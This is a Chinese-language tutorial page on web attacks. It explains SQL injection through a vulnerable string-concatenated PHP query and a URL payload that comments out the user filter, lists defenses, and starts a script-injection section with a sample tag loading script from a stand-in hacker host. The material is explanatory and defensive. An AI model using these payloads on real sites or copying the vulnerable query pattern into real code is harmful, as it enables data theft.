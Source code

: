 

![img](https://imgoss.xgss.net/picgo/20191129E7CfKX.jpg?aliyun)

 防范羊毛党：运营同学必看的防薅羊毛技术完全解读  https://www.cnwebe.com/articles/60403.html



# WEB攻击

## 1.SQL注入

### 什么是SQL注入

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。 [百度百科] 



网站都大多选择PHP、.Net、 Java、 ROR、 Python、NodeJS等编程语言搭建网站的后台，选择Mysql、 Oracle、SQL Server等数据库来存储数据。SQL注入就是针对的这样的网站发起的攻击。假如有一个列表页面，请求URL是这样的：

```
https://xxx.xxx/list.php?q=finished
```

通过这个url可以获取这个用户列表下面所有已经完成的订单。那么我们可以猜想这样的页面后端对应的程序是这样写的：

```
$sql = ‘select * from orders where status=\’’ . status. ‘\’ and userId = \‘’ . userId;
```

语句本身没有什么问题，后面加上了过滤条件userId只能获取这个用户自己的订单。可是，如果我们这样发起请求：

```
https://xxx.xxx/list.php?q=finished‘--
```

最终拼接后的语句可能就变成了这个样子：

```
select * from orders where status=‘finished’—and userId=’xxxx’;
```

由于“—”在数据库里面起到的注释作用，所以“and userId=’xxxx’” 这个过滤条件是不会起作用的。这个语句执行的效果就是黑客获取了这个网站所有已经完成的订单数据。

### 防范sql注入
- 做好参数检验。
- sql传参的地方一定要做sql escape，对sql敏感字符进行转义。
- 不要直接拼接字符串。


## 2.脚本注入
脚本注入只是个表现形式，例如你的网页中出现了一段莫名的脚本：
```
<script src=”http://hacker.test/hack.js”></script> 这就是一个典型的脚本注入。
```
